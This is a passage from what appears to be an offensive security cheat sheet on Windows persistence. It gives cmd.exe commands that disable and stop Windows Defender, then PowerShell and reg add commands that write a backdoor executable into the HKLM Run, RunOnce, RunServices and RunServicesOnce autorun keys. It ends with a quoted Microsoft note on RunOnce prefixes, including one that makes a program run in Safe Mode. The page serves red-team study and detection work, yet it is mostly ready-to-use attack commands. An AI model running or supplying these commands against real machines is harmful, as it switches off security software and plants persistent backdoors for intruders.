 {% tab title="cmd.exe" %}
add more info

```text
sc config WinDefend start= disabled
sc stop WinDefend
```
{% endtab %}
{% endtabs %}

### Registry - HKLM 

#### Autoruns

{% tabs %}
{% tab title="PowerShell" %}
Create key values in the Autoruns keys in `HKCU:\Software\Microsoft\Windows\CurrentVersion`. **Run** and **RunOnce** keys are run each time a new user logs in. **RunServices** and **RunServicesOnce** are run in the background when the logon dialog box first appears or at this stage of the boot process if there is no logon.

```text
New-ItemProperty -Path HKLM:\Software\Microsoft\Windows\CurrentVersion\Run -PropertyType String -Name <key_name> -Value "<C:\Path\to\backdoor.exe>"
New-ItemProperty -Path HKLM:\Software\Microsoft\Windows\CurrentVersion\RunOnce -PropertyType String -Name <key_name> -Value "<C:\Path\to\backdoor.exe>"
New-ItemProperty -Path HKLM:\Software\Microsoft\Windows\CurrentVersion\RunServices -PropertyType String -Name <key_name> -Value "<C:\Path\to\backdoor.exe>"
New-ItemProperty -Path HKLM:\Software\Microsoft\Windows\CurrentVersion\RunServicesOnce -PropertyType String -Name <key_name> -Value "<C:\Path\to\backdoor.exe>"
```
{% endtab %}

{% tab title="cmd.exe" %}
Create values in the Autoruns keys in `HKCU\Software\Microsoft\Windows\CurrentVersion`. The option `/v` is the name you want, and `/d` is the path to your backdoor.  **Run** and **RunOnce** keys are run each time a new user logs in. **RunServices** and **RunServicesOnce** are run in the background when the logon dialog box first appears or at this stage of the boot process if there is no logon.

```text
reg add "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run" /v <name> /t REG_SZ /d "<C:\Path\to\backdoor.exe>"
reg add "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunOnce" /v <name> /t REG_SZ /d "<C:\Path\to\backdoor.exe>"
reg add "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunServices" /v <name> /t REG_SZ /d "<C:\Path\to\backdoor.exe>"
reg add "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunServicesOnce" /v <name> /t REG_SZ /d "<C:\Path\to\backdoor.exe>"
```
{% endtab %}
{% endtabs %}

> By default, the value of a RunOnce key is deleted before the command line is run. You can prefix a RunOnce value name with an exclamation point \(!\) to defer deletion of the value until after the command runs. Without the exclamation point prefix, if the RunOnce operation fails the associated program will not be asked to run the next time you start the computer. 
>
> By default, these keys are ignored when the computer is started in Safe Mode. The value name of RunOnce keys can be prefixed with an asterisk \(\*\) to force the program to run even in Safe mode.
>
> [Microsoft](https://docs.microsoft.com/en-us/windows/win32/setupapi/run-and-runonce-registry-keys)
